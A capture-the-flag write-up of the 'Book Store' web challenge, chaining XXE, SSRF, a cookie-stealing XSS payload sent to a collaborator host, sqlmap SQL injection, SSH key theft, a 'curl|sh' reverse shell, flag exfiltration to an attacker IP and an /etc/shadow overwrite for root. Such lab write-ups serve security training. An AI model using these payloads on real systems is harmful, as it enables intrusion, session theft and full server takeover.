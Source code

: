 ```yaml
---
description: a challenge by John Hammond
---
```


# Book Store

In this challenge by John Hammond we are presented with a web site where we can browse book by category, author, and so on.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

We also have a login form but registration is not active at the moment.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Basic tampering with login form does not reveal anything, so we start with basic recon using tools like `gobuster`.

```
/authors              (Status: 200) [Size: 3773]
/categories           (Status: 200) [Size: 7751]
/dashboard            (Status: 302) [Size: 235] [--> /login?next=%2Fdashboard]
/login                (Status: 200) [Size: 3332]
/logout               (Status: 302) [Size: 229] [--> /login?next=%2Flogout]
/register             (Status: 200) [Size: 3179]
/sitemap.xml          (Status: 200) [Size: 915]
```

We observe that we can browse

* by category `/categories/38940c5d-6332-4328-84b3-2acef194cb8b`
* by book inside a given category: `/categories/38940c5d-6332-4328-84b3-2acef194cb8b/books/1`

Looking at `/sitemap.xml` we notice eight categories, while in home page we only had seven. If we try to access the "hidden" category `/categories/2d340d76-cc36-4554-9d40-577e164603dd` we get an error message:

```json
{
  "error" : "Sorry, these items are not available in your region. This area is only accessible by local staff or specific geographic locations."
}
```

We can bypass this restriction adding an `X-Forwarded-For: 127.0.0.1` header.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Moreover, we can edit books with id 7 and 8:

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

With this edit functionality we have a classic XXE vulnerability (that can give us /etc/hosts) and a SSRF in the `coverImageUrl` parameter.

By looking at `/etc/hosts` with the XXE vulnerability we discover an api host. We can do some recon there and we discover (using the SSRF) the `http://api/swagger.json`. A careful study of the api functionality highlights the following endpoint.

```
/categories/2d340d76-cc36-4554-9d40-577e164603dd/books/7/submit-ticket-request-for-review
```

So maybe we can edit a book and trigger some bot action if we submit that book for review.

The plot now is:

1. edit book id 7 inserting a XSS parameter:

```xml
<book>
    <title>Test Book A</title>
    <author>Alan Turing</author>
    <description>&lt;img src=x onerror="this.src='//COLLAB/?'+btoa(document.cookie); this.removeAttribute('onerror');"&gt;</description>
    <price>1.0</price>
    <publishDate>2024-02-29</publishDate>
    <coverImageUrl>http://example.com/cover7.jpg</coverImageUrl>
</book>
```

2. edit book id 8 asking for review of book id 7:

```xml
   <coverImageUrl>http://api/categories/2d340d76-cc36-4554-9d40-577e164603dd/books/7/submit-ticket-request-for-review</coverImageUrl>
```

Our collaborator receives a GET request with session cookies:

```
GET /?c2Vzc2l... HTTP/1.1
```

With this cookie we have access to the book store dashboard

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

where we see two functionalities: edit book, and apparently run commands on the db server (but we need an SSH private key which we do not have).

We probably have a SQL injection with requests like:

```
POST /add-book HTTP/1.1
title=1&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05"

{"error":"Error: 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\"2024-04-05\"\",TRUE)' at line 1"}
```

Easiest way to proceed is saving a complete HTTP request to `/add-book` endpoint and run a `sqlmap -r --batch`:

```
sqlmap identified the following injection point(s) with a total of 640 HTTP(s) requests:
---
Parameter: title (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)
    Payload: title=1" AND ELT(4932=4932,9451) AND "Wduy"="Wduy&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: title=1" AND GTID_SUBSET(CONCAT(0x717a7a6b71,(SELECT (ELT(1936=1936,1))),0x7171627a71),1936) AND "jhTF"="jhTF&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=1" AND (SELECT 9182 FROM (SELECT(SLEEP(5)))unLE) AND "Wdxu"="Wdxu&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05
```

Armed with this knowledge we get db container root ssh key: `sqlmap -r req.txt --batch --file-read /root/.ssh/id_rsa` and we can get a reverse shell on it:

```
POST /database-debug HTTP/1.1
...
ssh_private_key=-----BEGIN+OPENSSH+PRIVATE+KEY-----...&command=id


{"message":"Command ran successfully, output: b'uid=0(root) gid=0(root) groups=0(root)\\n'"}
```

Here we get an api admin token:

```bash
root@db:~# cat .api_admin_token.txt
JVU...
```

Now for simplicity we download a static curl binary on db container and we attack the `/other/debug-exec` endpoint on api container:

```bash
wget https://github.com/moparisthebest/static-curl/releases/download/v8.7.1/curl-amd64
chmod +x curl-amd64

./curl-amd64 -H 'Content-Type: application/json' --data '{"command":"curl OUR_SERVER:8000/shell|sh","admin_token":"JVU..."}' http://api/other/debug-exec
```

Once we have a reverse shell on api container we look at `.bash_history` where we get ssh password for accessing the main www container

```bash
root@api:~# cat .bash_history
ls
whoami
ls
cd /tmp
pwd
sshpass -p ****** ssh www-admin@www
cd
date
ls
```

We now have a couple of options:

```
www-admin@www:~$ ps -edaf
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 06:48 ?        00:00:00 /bin/sh -c service ssh start && .echo "; use 'www', 'api',
root           7       1  0 06:48 ?        00:00:00 su www-admin -c python3 -m flask run --host=0.0.0.0 --port
root           8       1  0 06:48 ?        00:00:01 python3 -m http.server --bind 127.0.0.1 80
www-adm+      15       7  1 06:48 ?        00:01:04 python3 -m flask run --host=0.0.0.0 --port=5000
root          18       1  0 06:48 ?        00:00:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root        6844      18  0 07:58 ?        00:00:00 sshd: www-admin [priv]
www-adm+    6851    6844  0 07:58 ?        00:00:00 sshd: www-admin@pts/0
www-adm+    6852    6851  0 07:58 pts/0    00:00:00 -bash
www-adm+    6859    6852  0 07:59 pts/0    00:00:00 ps -edaf


www-admin@www:~$ sudo -l
[sudo] password for www-admin:
Matching Defaults entries for www-admin on www:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-admin may run the following commands on www:
    (ALL) /usr/bin/curl 127.0.0.1/*
```

1. we have a web server running as root listening on `127.0.0.1:80`. The document root is `/app`, where we have write permissions, so we can simply link /root/flag.txt and grab the flag:

```bash
cd /app
ln -s /root/flag.txt
curl 127.0.0.1/flag.txt
```

2. we can leverage curl to exfiltrate the root flag with a command like: `sudo curl 127.0.0.1/=@/root/flag.txt -F data=@/root/flag.txt MY_IP:8000`
3. we can use curl to overwrite `/etc/shadow` and get a shell as root:

```bash
cd /app
ln -s /etc/shadow
curl 127.0.0.1/shadow -o pwn
sed -i -e 's/\*//' pwn
sudo curl 127.0.0.1/pwn -o /etc/shadow
su -
root@www:~# id
uid=0(root) gid=0(root) groups=0(root)
```

![](<../../.gitbook/assets/image (7).png>)
